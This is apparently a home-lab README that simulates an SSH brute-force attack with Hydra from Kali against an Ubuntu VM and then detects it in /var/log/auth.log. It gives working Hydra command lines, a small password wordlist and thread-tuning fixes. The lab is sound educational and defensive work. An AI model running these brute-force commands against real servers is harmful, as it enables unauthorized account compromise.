








# 🔴 Lab 2: SSH Brute Force Attack & Log Analysis

> *Simulate an SSH brute force attack from Kali Linux against an Ubuntu server, then detect it through authentication log analysis.*

---

## 📋 Table of Contents

- [Objective](#-objective)
- [Lab Environment](#-lab-environment)
- [Tools Used](#️-tools-used)
- [Attack Scenario Overview](#-attack-scenario-overview)
- [Lab Steps](#-lab-steps)
  - [1. Install & Enable SSH on Ubuntu](#1️⃣-install-and-enable-ssh-on-ubuntu)
  - [2. Create Test User](#2️⃣-create-test-user)
  - [3. Verify SSH Login from Kali](#3️⃣-verify-ssh-login-from-kali)
  - [4. First Hydra Attempt](#4️⃣-first-hydra-attempt)
  - [5. Second Hydra Attempt](#5️⃣-second-hydra-attempt)
  - [6. Create Custom Password List](#6️⃣-create-custom-password-list)
  - [7. Run Hydra with Custom Wordlist](#7️⃣-run-hydra-with-custom-wordlist)
  - [8. Monitor Logs on Ubuntu](#8️⃣-monitor-logs-on-ubuntu)
- [Detection Results](#-detection-results)
- [Attack Flow](#-attack-flow)
- [Challenges & Fixes](#️-challenges--fixes)
- [Key Learnings](#-key-learnings)
- [Conclusion](#-conclusion)

---

## 🎯 Objective

Simulate an SSH brute force attack from a Kali Linux attacker machine against an Ubuntu server target, then detect the attack by analyzing the authentication logs (`/var/log/auth.log`) on the victim machine — demonstrating both **offensive** and **defensive** perspectives.

---

## 🧱 Lab Environment

| Setting | Details |
|---------|---------|
| Hypervisor | VMware Fusion |

### 🖥️ Machines

| Role | OS | IP Address |
|------|----|-----------|
| 🔴 Attacker | Kali Linux | `192.168.248.1` |
| 🟢 Target | Ubuntu Server | `192.168.248.128` |

> Windows 11 was previously configured in the environment but not actively used in this lab.

---

## 🛠️ Tools Used

| Tool | Purpose |
|------|---------|
| **Hydra** | SSH brute force attack |
| **OpenSSH Server** | Target SSH service on Ubuntu |
| **rockyou.txt / custom list** | Password wordlists |
| **`/var/log/auth.log`** | Attack detection via log analysis |

---

## 🚨 Attack Scenario Overview

```
[Kali Linux] ──── Hydra SSH Brute Force ────▶ [Ubuntu Server]
                                                      │
                                              /var/log/auth.log
                                                      │
                                              Detect failed logins
                                              Identify attacker IP
```

1. SSH service configured on the Ubuntu target
2. A test user account created to simulate a login target
3. Hydra launched from Kali to perform the brute force
4. Attack detected by monitoring `auth.log` on Ubuntu

---

## ⚙️ Lab Steps

---

### 1️⃣ Install and Enable SSH on Ubuntu

SSH server was installed and started on the Ubuntu target machine.

```bash
sudo apt update
sudo apt install openssh-server -y
sudo systemctl start ssh
sudo systemctl enable ssh
sudo systemctl status ssh
```

#### ✅ Result
- SSH installed and service set to start on boot
- Port `22` confirmed listening on Ubuntu



---

### 2️⃣ Create Test User

A dedicated test account was created on Ubuntu to serve as the brute force target.

```bash
sudo adduser testuser
```

> 🔑 Password set for the account: `password123`



---

### 3️⃣ Verify SSH Login from Kali

Before launching the attack, a manual SSH login was tested to confirm the service and credentials were working correctly.

```bash
ssh testuser@192.168.248.128
```

#### ✅ Result
- SSH fingerprint accepted
- Login with correct credentials succeeded
- Confirmed service was accessible from the attacker machine



---

### 4️⃣ First Hydra Attempt

The initial brute force attempt used the default `rockyou.txt` wordlist.

```bash
hydra -l testuser -P /usr/share/wordlists/rockyou.txt ssh://192.168.248.128
```

#### ❌ Error: `rockyou.txt` Not Found

```
[ERROR] File for passwords not found: /usr/share/wordlists/rockyou.txt
```

The wordlist was still in compressed `.gz` format.



#### ✅ Fix: Extract `rockyou.txt.gz`

```bash
sudo gzip -d /usr/share/wordlists/rockyou.txt.gz
ls /usr/share/wordlists/
```

`rockyou.txt` was now available and ready to use.



---

### 5️⃣ Second Hydra Attempt

After extracting the wordlist, Hydra was run again against the SSH service.

```bash
hydra -l testuser -P /usr/share/wordlists/rockyou.txt ssh://192.168.248.128
```

#### ❌ Error: Too Many Connection Errors

```
[ERROR] all children were disabled due to too many connection errors
```

Hydra's default parallelism was too aggressive for the lab's SSH service, causing connections to be dropped.


#### ✅ Fix: Reduce Threads & Add Wait Time

```bash
hydra -l testuser -P /usr/share/wordlists/rockyou.txt -t 4 -W 3 ssh://192.168.248.128
```

> This improved stability but was still slow with the large `rockyou.txt` list in a VM environment — leading to the custom list approach below.

---

### 6️⃣ Create Custom Password List

A small, targeted password list was created for a more controlled and reliable brute force simulation.

```bash
nano passwords.txt
```

```text
123456
admin
password
password123
test123
```



---

### 7️⃣ Run Hydra with Custom Wordlist

Hydra was executed using the custom list with conservative thread settings.

```bash
hydra -l testuser -P passwords.txt -t 2 ssh://192.168.248.128
```

#### ✅ Result
- Hydra ran successfully and completed the attack simulation
- The controlled wordlist made the lab reliable and repeatable



---

### 8️⃣ Monitor Logs on Ubuntu

On the defender side, authentication logs were monitored in real time to detect the brute force activity.

```bash
sudo tail -f /var/log/auth.log
```



---

## 🔍 Detection Results

The following attack evidence was observed in `/var/log/auth.log`:

| Indicator | Observed Value |
|-----------|---------------|
| Event Type | Failed SSH authentication |
| Target User | `testuser` |
| Attacker IP | `192.168.248.1` |
| Behavior Pattern | Repeated rapid login attempts |

**Sample log entry:**
```
Failed password for testuser from 192.168.248.1 port XXXXX ssh2
```

> ✅ The brute force attack generated clear, visible artifacts in the system logs — confirming it can be reliably detected through log monitoring.

---

## 🧪 Attack Flow

```
 1. Install & enable SSH on Ubuntu
 2. Create test user (testuser / password123)
 3. Verify manual SSH login from Kali ✅
 4. Launch Hydra with rockyou.txt
        └── ❌ Error: file not found
        └── ✅ Fix: extract rockyou.txt.gz
 5. Re-run Hydra
        └── ❌ Error: too many connections
        └── ✅ Fix: reduce threads (-t 4 -W 3)
 6. Create custom passwords.txt
 7. Run Hydra with custom list ✅ Success
 8. Monitor /var/log/auth.log on Ubuntu
 9. Detect failed logins + attacker IP ✅
```

---

## ⚠️ Challenges & Fixes

| # | Challenge | Root Cause | Fix Applied |
|---|-----------|-----------|-------------|
| 1 | `rockyou.txt` not found | Wordlist was still compressed as `.gz` | Extracted with `gzip -d` |
| 2 | Too many connection errors | Hydra default threads overwhelmed SSH | Reduced with `-t 4 -W 3` |
| 3 | Hydra unstable with large list | VM lab environment limitations | Created a small custom wordlist |

---

## 🧠 Key Learnings

- ✅ SSH brute force attacks can be safely simulated in a controlled lab
- ✅ Authentication logs (`auth.log`) provide strong visibility into failed login activity
- ✅ Attacker IP addresses are recorded in logs — useful for detection and blocking
- ✅ Large default wordlists aren't always practical in small VM environments
- ✅ Hydra's threading must be tuned to match the target service's capacity
- ✅ Custom wordlists are effective for controlled, repeatable testing

---

## 🚀 Conclusion

This lab successfully demonstrated a full SSH brute force attack simulation — from service setup and credential targeting, through real-world tooling challenges, to final detection via log analysis. It reinforced both **attacker tradecraft** (wordlist management, tool configuration) and **defender awareness** (log monitoring, anomaly detection).

---

## ⚠️ Disclaimer

> This lab was conducted in a **controlled virtual environment** for **educational purposes only**.  
> Do not replicate these techniques on any network or system without explicit written authorization.

---

<div align="center">

*🔴 Lab 2 — SSH Brute Force & Log Analysis · Cybersecurity Home Lab Series*

</div>
